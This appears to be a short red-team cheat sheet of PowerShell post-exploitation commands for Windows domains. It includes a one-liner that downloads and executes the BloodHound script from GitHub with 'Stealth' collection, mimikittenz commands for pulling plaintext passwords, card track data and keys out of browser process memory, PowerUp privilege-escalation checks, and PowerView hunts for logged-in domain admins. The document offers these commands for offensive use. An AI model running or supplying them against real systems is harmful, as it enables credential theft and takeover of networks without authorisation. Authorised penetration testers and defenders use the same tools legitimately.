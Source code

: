 ### Bloodhound
```
	iex((new-object system.net.webclient).downloadstring('https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/PowerShell/BloodHound.ps1'));Invoke-Bloodhound -CSVFolder c:\temp -CSVPrefix <prefix>

	Invoke-BloodHound -DomainController <domain IP> -Domain <FQDN> -CSVFolder C:\users\public\libraries -CSVPrefix <prefix> -CollectionMethod Stealth
```

### Mimikittenz
https://github.com/putterpanda/mimikittenz

mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.

mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns including but not limited to:

* TRACK2 (CreditCard) data from merchant/POS processes
* PII data
* Encryption Keys & All the other goodstuff

Execution
```
	Invoke-Mimikittenz
```

Customizations
```	
	Custom regex - The syntax for adding custom regex is as follows:
	[mimikittenz.MemProcInspector]::AddRegex("<NameOfTarget>","<regex_here>")

	Custom target process - Just append your target proccess name into the array:
	[mimikittenz.MemProcInspector]::InspectManyProcs("iexplore","chrome","firefox")
```


### PowerUp
Performs multiple local host privilege escalation checks for common Windows misconfigurations. 
```
	Invoke-AllChecks
```

[See cheat sheet for more commands](https://github.com/HarmJ0y/CheatSheets/blob/master/PowerUp.pdf)

### PowerView

* Requires domain user privileges
	
Find Administrative users logged in across the domain - default group = Domain Admins) 
```	
	Invoke-UserHunter -Threads 15 -NoPing [-GroupName “Enterprise Admins”]
	Invoke-UserHunter -Threads 20 -GroupName "Domain Admins" -SearchForest -CheckAccess
```
